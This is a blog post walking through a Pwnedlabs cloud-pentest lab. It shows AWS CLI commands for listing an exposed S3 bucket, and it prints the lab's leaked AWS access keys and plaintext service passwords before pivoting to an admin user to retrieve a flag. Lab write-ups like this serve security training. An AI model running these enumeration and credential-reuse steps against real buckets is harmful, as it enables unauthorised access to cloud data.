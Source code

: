 ```yaml
---
author: Nithissh S
pubDatetime: 2024-02-13
modDatetime: 2024-02-13
title: Introduction to s3 enumeration - Pwnedlabs walkthrough
slug: s3-enumeration-basics
featured: false
draft: false
tags:
  - Pwnedlabs
  - Cloud Pentest
description:
  Learning on how we can enumerate s3 bucket which leads to credential leakage of another user and goes on...
---
```


## AWS S3 Enumeration Basics 

  

As an Initial entry we have been provided with the following details 

  

| Website | URL |
| --- | --- |
| Huge Logistics Development | [http://dev.huge-logistics.com](http://dev.huge-logistics.com) |

  

## Approach for the solution 

  

Following application looks like some kind of logistics application where we can calculate the payments and also we can track about the shipping as well 

  

![](../../assets/images/s3enum-1.png) 

  

I was thinking like how these images being embedded and Found that these images are fetched from a s3 bucket called [`dev.huge-logistics.com`](https://dev.huge-logistics.com "https://dev.huge-logistics.com") by looking into the source code 

  

![](../../assets/images/s3enum-2.png)  

  

Viewing the s3 bucket directly on the browser and results in access denied which means we don’t access to `GetObject` which means getting an object through a `GET` request

  

![](../../assets/images/s3enum-3.png)  

  

The other way of enumeration, we can do his trying out from CLI from our own account.. By configuring the Access key and secret key. Later through `aws s3`  we can further look into the enumeration process

  

![](../../assets/images/s3enum-4.png)  

  

Now through CLI, we can use the following command `aws s3 ls s3://dev.huge-logistics.com --profile mycreds` we were able list out the files inside the s3 bucket 

  

![](../../assets/images/s3enum-5.png)  

  

In the `shared/`  directory, we have a zip file called `hl_migration_project.zip` and let’s unzip the file, look for any interesting thing..

  

![](../../assets/images/s3enum-6.png)  

  

Unzipping the zip file we found that there is a powershell script called migrate\_secrets.ps1 and found that aws credentials being disclosed 

  

![](../../assets/images/s3enum-7.png)   

  

Let’s configure the aws credentials with a new profile called `s3enum`  and we have found that the user named as `pam-user`  

  

```sh
nits@FWS-CHE-LT-8869 pwnedlabs.io % aws configure --profile s3enum
AWS Access Key ID [None]: AKIA3SFMDAPOWOWKXEHU
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]: 
nits@FWS-CHE-LT-8869 pwnedlabs.io % aws sts get-caller-identity --profile s3enum
{
    "UserId": "AIDA3SFMDAPOYPM3X2TB7",
    "Account": "794929857501",
    "Arn": "arn:aws:iam::794929857501:user/pam-test"
}
```

  

  

With the same s3 bucket [`dev.huge-logistics.com`](s3://dev.huge-logistics.com) previously we can’t able to access the `/admin`  directory but now we can able to access and list out the files but can’t able download 

  

```sh
nits@FWS-CHE-LT-8869 pwnedlabs.io % aws s3 sync  s3://dev.huge-logistics.com/admin/ --profile s3enum ./ --no-sign-request
fatal error: An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
nits@FWS-CHE-LT-8869 pwnedlabs.io % 
```

  

Inside `migration-files`  we found a file called `test-export.xml`  exposes another aws credentials 

  

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<CredentialsExport>
    <!-- Oracle Database Credentials -->
    <CredentialEntry>
        <ServiceType>Oracle Database</ServiceType>
        <Hostname>oracle-db-server02.prod.hl-internal.com</Hostname>
        <Username>admin</Username>
        <Password>Password123!</Password>
        <Notes>Primary Oracle database for the financial application. Ensure strong password policy.</Notes>
    </CredentialEntry>
    <!-- HP Server Credentials -->
    <CredentialEntry>
        <ServiceType>HP Server Cluster</ServiceType>
        <Hostname>hp-cluster1.prod.hl-internal.com</Hostname>
        <Username>root</Username>
        <Password>RootPassword456!</Password>
        <Notes>HP server cluster for batch jobs. Periodically rotate this password.</Notes>
    </CredentialEntry>
    <!-- AWS Production Credentials -->
    <CredentialEntry>
        <ServiceType>AWS IT Admin</ServiceType>
        <AccountID>794929857501</AccountID>
        <AccessKeyID>AKIA3SFMDAPOQRFWFGCD</AccessKeyID>
        <SecretAccessKey>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</SecretAccessKey>
        <Notes>AWS credentials for production workloads. Do not share these keys outside of the organization.</Notes>
    </CredentialEntry>
    <!-- Iron Mountain Backup Portal -->
    <CredentialEntry>
        <ServiceType>Iron Mountain Backup</ServiceType>
        <URL>https://backupportal.ironmountain.com</URL>
        <Username>hladmin</Username>
        <Password>HLPassword789!</Password>
        <Notes>Account used to schedule tape collections and deliveries. Schedule regular password rotations.</Notes>
    </CredentialEntry>
    <!-- Office 365 Admin Account -->
    <CredentialEntry>
        <ServiceType>Office 365</ServiceType>
        <URL>https://admin.microsoft.com</URL>
        <Username>admin@company.onmicrosoft.com</Username>
        <Password>O365Password321!</Password>
        <Notes>Office 365 global admin account. Use for essential administrative tasks only and enable MFA.</Notes>
    </CredentialEntry>
    <!-- Jira Admin Account -->
    <CredentialEntry>
        <ServiceType>Jira</ServiceType>
        <URL>https://hugelogistics.atlassian.net</URL>
        <Username>jira_admin</Username>
        <Password>JiraPassword654!</Password>
        <Notes>Jira administrative account. Restrict access and consider using API tokens where possible.</Notes>
    </CredentialEntry>
</CredentialsExport>
```

  

Now we can configure again with a new profile called `s3enum-2`  and confirming that the user belongs to `it-admin` 

  

```sh
nits@FWS-CHE-LT-8869 pwnedlabs.io % aws sts get-caller-identity --profile s3enum-2
{
    "UserId": "AIDA3SFMDAPOWKM6ICH4K",
    "Account": "794929857501",
    "Arn": "arn:aws:iam::794929857501:user/it-admin"
}
```

  

Confirming that we can able to get the `flag.txt`  from `/admin`  directory 

  

```sh
nits@FWS-CHE-LT-8869 pwnedlabs.io % aws s3 ls s3://dev.huge-logistics.com/admin/ --profile s3enum-2            
2023-10-16 20:38:38          0 
2023-10-16 20:40:51         32 flag.txt
2023-10-17 01:54:07       2425 website_transactions_export.csv
nits@FWS-CHE-LT-8869 pwnedlabs.io % aws s3 cp s3://dev.huge-logistics.com/admin/flag.txt ./  --profile s3enum-2
download: s3://dev.huge-logistics.com/admin/flag.txt to ./flag.txt
nits@FWS-CHE-LT-8869 pwnedlabs.io % cat flag.txt 
a49f18145568e4d001414ef1415086b8%
```